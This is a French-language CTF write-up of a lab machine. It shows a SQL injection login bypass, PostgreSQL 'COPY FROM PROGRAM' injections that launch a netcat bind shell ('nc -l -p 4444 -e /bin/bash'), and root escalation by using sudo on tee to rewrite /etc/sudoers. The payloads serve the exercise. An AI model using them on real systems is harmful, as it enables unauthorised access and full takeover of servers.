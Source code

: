 # Write-up CTF Facile 3

## Etape 1 : Analyse de la cible

Lancer une analyse réseau nmap sur la cible afin de voir lesquels de ses ports sont ouverts (et donc potentiellement vulnérables).
![img](1.PNG)

On constate qu'un service http est actif. On insère donc l'IP dans l'url d'un navigateur web :
![img](2.PNG)

On remarque un onglet de login sur la page. Le type de faille le plus commun sur ce type de formulaire étant la SQL Injection, on effectue une injection pour se connecter en tant qu'admin pour vérifier si le site y est sensible ou non :
![img](3.PNG)
![img](4.PNG)  
Nous sommes actuellement connectés en tant que l'utilisateur admin du site.
Pour ce faire, dans l'input de username, on a inséré `admin';--`, qui va retourner un fois inséré à son tour dans la requête effectuée au serveur de bases de données en back-end, une requête du type :
```sql
SELECT * FROM table_users WHERE username='admin';-- AND password='[valeur aléatoire]';
``` 
Cela permet donc de ne vérfier que le nom d'utilisateur et de commenter la partie de la vérification du mot de passe.

## Etape 2 : Injection SQL

Maintenant que l'on sait que le site est sensible aux injections SQL, et que l'on a vu que le fait d'être connecté en tant qu'admin ne nous avançait pas vraiment, le but est de trouver le moyen d'atteindre la machine serveur directement depuis ce formulaire de login. Le fait est qu'il est possible d'exécuter des commandes système arbitrairement sur la machine serveur avec des requêtes SQL, les RCE (Remote Code Execution). Ainsi, en tapant les commandes suivantes, le mieux étant de les taper une à une pour éviter tout problème, on peut récupérer un bind shell sur la machine cible :
```SQL
'; DROP TABLE IF EXISTS cmd_exec;-- On supprime ici la table cmd_exec si elle existe, afin de nettoyer la base de données avant de faire notre exploit
'; CREATE TABLE cmd_exec(cmd_output text);-- On recrée la table, qui va contenir dans son unique colonne une commande
'; COPY cmd_exec FROM PROGRAM 'nc -l -p 4444 -e /bin/bash';-- On copie dans notre table la commande suivante, qui va ouvrir une connexion Netcat sur le port 4444, et qui va fournir à l'utilisateur qui se connecte un shell, c'est notre bind shell
'; SELECT * FROM cmd_exec;-- Cette requête va exécuter la commande copiée dans la table plus tôt
```

On voit bien que le port 4444 s'est ouvert sur la machine cible :
![img](5.PNG)

## Etape 3 : Bind Shell


Il suffit ensuite de se connecter au serveur via Netcat, sur le port 4444 :
![img](6.PNG)

Maintenant que nous avons obtenu notre bind shell, nous pouvons directement exécuter des commandes bash sur la machine cible. Après un `ls`, on constate l'existence d'un fichier nommé ***user.txt***. On effectue donc un `cat` dessus, et comme on a les droits de lecture dessus, cela fonctionne :
![img](7.PNG)

## Etape 4 : Elévation des privilèges

On a réussi à ce stade à récupérer le premier flag. Pour récupérer le deuxième, le but maintenant est d'obtenir une élévation des privilèges afin d'obtenir les droits root. On tape donc la commande `sudo -l` afin de voir si notre utillisateur **postgres** a le droit d'utiliser certaines commandes en `sudo` sans avoir à fournir de mot de passe, et on s'aperçoit qu'il a le droit d'utiliser la commande `/bin/tee` : 
![img](8.PNG)

`tee` est une commande qui permet de lire sur l'entrée standard (clavier) et d'écrire sur la sortie standard (écran) tout en écrivant dans des fichiers. Ce qui nous intéresse ici, c'est la possibilité de modifier des fichiers en étant `sudo`. On décide donc ici de modifier le fichier ***/etc/sudoers*** qui contient les règles des droits sur `sudo` aux utilisateurs du système. Ce fichier, naturellement, n'est modifiable qu'avec des droits administrateurs. En tapant la commande suivante, on permet à l'utilisateur avec lequel on est connecté d'utiliser toutes les commandes système avec les droits root :
![img](9.PNG)

Maintenant qu'on peut utiliser toutes les commandes sytèmes en tant que root, on peut voir le contenu du répertoire ***/root***. Après un `sudo ls /root`, on trouve un fichier ***root.txt*** qu'on affiche dans la console : 
![img](10.PNG)

Ainsi, on a récupéré les flags *user* et *root*, et à ce stade du CTF, nous pouvons effectuer toutes les commandes que l'on veut en tant que root. Ainsi, la machine est désormais totalement sous notre contrôle.

